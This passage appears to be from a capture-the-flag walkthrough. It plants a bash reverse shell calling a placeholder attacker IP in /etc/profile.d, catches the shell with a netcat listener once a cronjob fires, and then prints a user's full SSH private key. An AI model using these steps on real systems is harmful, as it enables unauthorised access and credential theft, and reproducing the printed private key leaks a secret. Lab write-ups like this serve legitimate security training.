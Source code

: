 ```bash
/etc/profile.d/vte.csh
/etc/profile.d/apps-bin-path.sh
/etc/profile.d/vte-2.91.sh
/etc/profile.d/xdg_dirs_desktop_session.sh
/etc/profile.d/im-config_wayland.sh
/etc/profile.d/bash_completion.sh
...
```

**On your KALI machine use netcat to accept [[Reverse Shell]]**

```bash
└─$ nc -nlvp 9999
listening on [any] 9999 ...
```

**Create another [[Reverse Shell]] script in** `/etc/profile.d` **folder and wait for the cronjob to work (replace KALI_IP)**

```bash
#!/bin/bash
bash -i >& /dev/tcp/KALI_IP/9999 0>&1
```

**Once the cronjob runs and you get your ralph [[Reverse Shell]], grab the ssh key:**

```bash
ralph@ephemeral:~$ cat /home/ralph/.ssh/id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```